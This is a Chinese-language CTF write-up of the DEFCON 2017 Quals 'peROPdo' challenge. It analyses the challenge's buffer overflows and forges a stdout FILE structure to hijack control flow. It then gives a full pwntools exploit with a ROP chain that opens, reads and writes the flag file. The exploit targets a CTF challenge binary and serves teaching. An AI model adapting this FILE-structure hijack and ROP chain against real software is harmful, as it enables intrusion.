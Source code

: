 ```yaml
---
title: '[DEFCON CTF 2017 Quals] peROPdo'
author: bruce30262
tags:
  - pwn
  - buffer overflow
  - ROP
  - file stream pointer overflow
  - DEFCON CTF 2017
categories:
  - write-ups
date: 2017-05-03 23:31:00
---
```

## Info  
> Category: Potent Pwnables
> Author: bruce30262 @ BambooFox  

## Analyzing
32 bit ELF, **static linked & stripped**, 有開 DEP 保護

程式是個簡單的骰子程式，輸入完名字後程式會問你要骰幾個骰子，輸入一個正整數後，程式會隨機產生資料，存在 `data[i]` 裡面。之後程式會輸出 `data[i] % 6 + 1`，代表這一輪我們骰的數字。

這題有兩個漏洞:
1. 輸入名字時是用 `scanf("%s", name);` 的方式讀取，造成 `name` buffer 有 overflow 的情形 (`name`位於 data 段)  
2. 程式存資料 `data[i]` 是存在 stack 上，因此如果我們骰太多骰子的話，會造成 `data[i]` 的資料覆蓋到 return address ( stack overflow )。

## Exploit
一開始本來打算利用第二個漏洞 ( stack overflow ) 來做 exploit，不過因為 `data[i]` 的資料是隨機化的結果，我們沒辦法隨心所欲的控制 return address 的內容。

這邊在解題時犯了一個錯誤: **誤認為程式所用的隨機化函式是自行 implement 的函式**。因為 binary 被 stripped 掉的關係，加上是 static linked 的 binary，因此當時無法判斷哪些是自行 implement 的 function，哪些是 libc 內部的 function。也因為這樣，在這題浪費了大量的時間在搞 symbolic execution tool，想說可以利用這些工具來幫助我們解出想要的 return address。結果 [angr](http://angr.io/) 不會用，[Triton](https://github.com/JonathanSalwan/Triton) 跟 [manticore](https://github.com/trailofbits/manticore) 則是連跑都跑不起來，一整個慘...... 

後來就想說換個方向，試試看第一個漏洞 ( `name` 的 buffer overflow )。結果發現到說可以控到 EIP，似乎是因為在 `name` buffer 的後面存有一些 `FILE*` pointer，導致我們可以透過[偽造`FILE`](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)結構來達到 hijack control flow 的效果。

於是透過一些動態分析，我們發現說我們可以透過一個 `call [reg+offset]` 的 gadget 來控制 EIP，且第二個參數會是 `stdout`。於是我先將程式跳至 main function 的中間:
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- 跳到這裡
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

會這樣跳是因為接下來程式會將 `%s` 放到第一個參數，並且呼叫 `scanf()`，讓程式執行 `scanf("%s", stdout)`，我們就可以完整的控制 `stdout` 的內容，之後就可以做更進一步的 ROP attack  

以下是我最後的 ROP chain:
* 先用 `xchg esp, eax` 將 stack migrate 至 `stdout` (此時 stdout 內容可控)
* 利用 `add esp, offset` gadget 跳過 `stdout` 結構 ( 必須跳過一些我們偽造的 data )
* 利用 gadgets 作出 open/read/write 的 syscall，將 flag 吐出來 ( 這題有擋 `execve()` )

Final exploit:
```python exp_peropdo.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT = 80
ELF_PATH = "./peropdo"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func = 0x0806d7aa # avoid crash
    scanf = 0x08048b2a
    name = p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream = p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream = stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream = stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream = stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx = 0x806f322  # pop ebx;ret
    pop_eax = 0x80e3525  # pop eax;ret
    pop_ecx = 0x080e5ee1 # pop ecx ; ret 
    pop_edx = 0x0806f2fa # pop edx ; ret
    int80 = 0x806fae0    # int 0x80 ; ret 
    buf = 0x80ed000-0x100
    rop = flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax = 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`

## Note
這題解到一半時，隊友 **Isaac** 提醒說 IDA 有個東西叫 [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml)，可以透過一些 [signature database](https://github.com/push0ebp/sig-database) 來辨別 libc 的 function，讓我們在做 reversing 時可以輕鬆一點。直到那時我才知道，程式裡面的隨機化函式其實就只是 libc 裡面的 `srand()` 和 `random()`......所以其實可以直接用暴力法把我們要跳的 return address 給爆出來......不過當時用 file stream pointer overflow 解到一半了，就沒有用這種方式解，要不然應該會快上許多。就當作是長經驗吧 Q_Q


